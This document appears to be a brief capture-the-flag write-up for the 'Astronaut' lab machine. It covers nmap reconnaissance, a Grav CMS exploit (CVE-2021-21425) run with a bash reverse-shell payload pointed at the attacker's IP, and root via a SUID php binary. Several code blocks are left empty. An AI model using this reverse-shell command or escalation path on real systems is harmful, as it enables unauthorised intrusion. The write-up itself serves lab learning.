



# Astronaut

# NMAP

```sh
┌──(kali㉿kali)-[~/PGPRACTICE/ASTRONAUT/recon/nmap]
└─$ cat openscsv.nmap           
# Nmap 7.93 scan initiated  as: nmap -sC -sV -vv --min-rate 2000 -oA openscsv -p 22,80 192.168.236.12
Nmap scan report for 192.168.236.12
Host is up, received syn-ack (0.031s latency).


PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 984e5de1e697296fd9e0d482a8f64f3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmPOfERLKCxx+ufQz7eRTNuEEkJ+GX/hKPNPpCWlTiTgegmjYoXQ7MA5ibTRoJ6vxpPEggzNszJKbBrSVAbRuT2sBg4o7ywiGUy7vsDBpObMrBMsdKuue3gpkaNF8DL2pB3v/XAxtavq1Mh4vz4yj99cc2pX1GhSjpQTWlsK8Rl9DmBKp7t0XxEWwq3juQ9JiN5yAttMrbTDjwMNxcipsYv0pMudDBE6g4gQyiZGwuUfBn+HirxnfRr7KkxmBaEpZgukXSJ7fXYgpQVgNP2cvd2sy/PYe0kL7lOfYwG/DSLWV917RPIdsPPQYr+rqrBL7XQA2Qll30Ms9iAX1m9S6pT/vkaw6JQCgDwFSwPXrknf627jCS7vQ8mh8UL07nPO7Hkko3fnHIcxyJggi/BoAAi3GseOl7vCZl28+waWlNdbR8gaiZhDR1rLvimcm3pg3nv9m+0qfVRIs9fxq97cOEFeXhaGHXvQL6LYGK14ZG+jVXtPavID6txymiBOUsj8M=
|   256 5723571ffd7706be256661146dae5e98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAweAzke7+zPt3Untb06RlI4MEp+vsEJICUG+0GgPMp+vxOdxEhcsVY0VGyuC+plTRlqNi0zNv1Y0Jj0BYRMSUw=
|   256 c79baad5a6333591341eefcf61a8301c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJP5z2Scxa02tfhI1SClflg5QtVdhMImHwY7GugVtfY
80/tcp open  http    syn-ack Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Here we  immediately see a directory listing with a folder called grav-admin.  Admin...always good

#Port 80


The page sem to be running gravCMS

Unable to find the version number
Found an exploit
```sh
https://github.com/CsEnox/CVE-2021-21425
python3 exploit.py -c 'bash -i >& /dev/tcp/192.168.45.235/4444 0>&1' -t http://192.168.236.12/grav-admin 

```



```sh

```
# Privilege Escalation
When enumerating the machine with linpeas we find that on binary /usr/bin/php7.4 the SUID bit is set. If we see that the SUID Bit is set we can look for ways to escalate our privileges on https://gtfobins.github.io/


```sh

```
When following the instructions https://gtfobins.github.io/gtfobins/php/#suid we become root!
```sh

```


